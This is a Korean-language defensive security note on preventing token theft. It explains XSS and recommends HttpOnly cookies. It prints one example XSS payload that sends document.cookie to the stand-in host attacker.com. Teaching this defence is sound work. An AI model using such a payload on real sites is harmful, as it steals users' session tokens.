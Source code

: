 # 토큰 탈취 방지 전략 (XSS, CSRF)



## XSS (Cross-Site Scripting) 개념과 방어 전략

### XSS란?

XSS는 공격자가 웹 페이지에 악성 JavaScript 코드를 삽입해 사용자의 브라우저에서 실행시키는 공격 기법이다. 예를 들어, 게시판 댓글이나 검색창 같은 사용자 입력 영역에 악성 스크립트를 삽입하고, 이 코드가 다른 사용자에게 전달되면 **사용자의 쿠키, 토큰, 세션 정보 등을 탈취하거나, 악의적인 동작을 수행할 수 있다.**

공격 예시:

```html
<script>fetch('http://attacker.com/steal?cookie=' + document.cookie)</script>
```

위와 같은 코드가 실행되면, 사용자의 인증 정보가 외부 서버로 전송될 수 있다.

### 방어 전략

 Content Security Policy (CSP) 설정, 사용자 입력 이스케이핑 및 검증, 외부 스크립트 관리 등 XSS를 막기위한 방어전략들이 있지만 해당 글에서는 토큰 방어 전략에 관한 것 만 작성

#### HttpOnly 쿠키 사용

- JavaScript에서 접근할 수 없도록 쿠키에 `HttpOnly` 속성을 부여
    
- XSS로 JS가 실행되더라도 `document.cookie`를 통해 토큰에 접근할 수 없음
    
- 즉, 악성 스크립트가 삽입되더라도 인증 토큰을 탈취할 수 없어 보안 수준 향상
    
- 브라우저만이 쿠키에 접근 가능하고, 서버로 전송되기 때문에 보안성이 높아짐
    

```http
Set-Cookie: access_token=...; HttpOnly; Secure; Path=/;
```
